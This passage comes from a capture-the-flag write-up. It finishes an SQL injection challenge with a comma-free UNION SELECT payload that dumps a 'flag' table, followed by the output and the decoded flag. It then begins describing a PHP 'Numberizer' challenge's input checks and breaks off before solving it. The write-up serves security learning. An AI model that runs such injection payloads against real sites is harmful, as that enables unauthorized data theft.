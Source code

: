 **We can see that the columns are `id`, `name` and `value`.**

### 3. Get the content of the columns

This is the easiest part, just build a triple join query as before using the columns and table name we got before:

```
2,10 UNION SELECT * FROM (SELECT id as id FROM flag)UT1 JOIN (SELECT name as title FROM flag)UT2 JOIN (SELECT value as content FROM flag)UT3
```

Which gives us the following result:

```
Flag (ID=1) has content: "RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvd19BZ0Exbl9BbmRfQWc0MW4hfQ=="
Page 2 (ID=2) has content: "This is not a flag, but just a boring page."
Page 3 (ID=3) has content: "This is not a flag, but just a boring page."
...
```

Once again, the flag is encoded in base64. Decoding it gives us the flag:

*ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow_AgA1n_And_Ag41n!}*

---

# Numberizer

The website is, once again, very simple. So here's a quick description:

- We have a form with 5 fields
- Each of these fields waits for a number
- Once sumbitted, the numbers will be summed up

The numbers are passed as strings and then converted to integers.

Two migigations are in place:

- Every numbers must be numeric and 4 characters long or less:
```php
if(!isset($_POST['numbers'][$i]) || strlen($_POST['numbers'][$i])>4 || !is_numeric($_POST['numbers'][$i])) {
    continue;
}
```

- Every number must be positive:
```php
$the_number = intval($_POST['numbers'][$i]);
if($the_number < 0) {
    continue;
}
```

Then, the goal is to get a negative sum at the end:
```php
if($sum < 0) {
    echo "You win a flag: $FLAG";
} else {
    echo "You win nothing with number $sum ! :-(";
}
```
